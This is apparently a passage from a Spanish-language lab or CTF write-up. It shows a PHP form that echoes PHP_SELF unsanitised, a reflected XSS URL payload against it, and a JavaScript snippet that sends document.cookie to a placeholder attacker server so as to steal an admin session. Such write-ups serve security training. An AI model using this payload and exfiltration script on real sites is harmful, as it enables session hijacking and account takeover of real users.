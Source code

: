 ```php
        <p>Web designed by <span class="red"><a href="https://trr0r.github.io/" target="_blank">trr0r<>
    </footer>
</body>

</html>
```

Vemos que en la siguiente linea es vulnerable a un `XSS` ya que no esta sanitizando la entrada:

```php
<form method="GET" action="<?php echo $_SERVER["PHP_SELF"]; ?>">
```

Si probamos a poner esto en la `URL` de esta forma:

```
URL = http://trr0rlabs.bbl/form.php/"><script>alert('XSS')</script>
```

Veremos lo siguiente en la pagina.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando y se nos esta ejecutando un `XSS` ahora nuestro objetivo es obtener la `Cookie` del usuario `admin` o por lo menos intentarlo.

> cookie.js (Modificado)

```js
// Obtener las cookies
const cookies = document.cookie;

// Enviar las cookies a tu servidor
fetch('http://<IP_ATTACKER>:8000/receive_cookie?cookie=' + encodeURIComponent(cookies))
    .then(response => response.text())
    .then(data => console.log("Cookies enviadas:", data))
    .catch(error => console.error("Error al enviar cookies:", error));
```
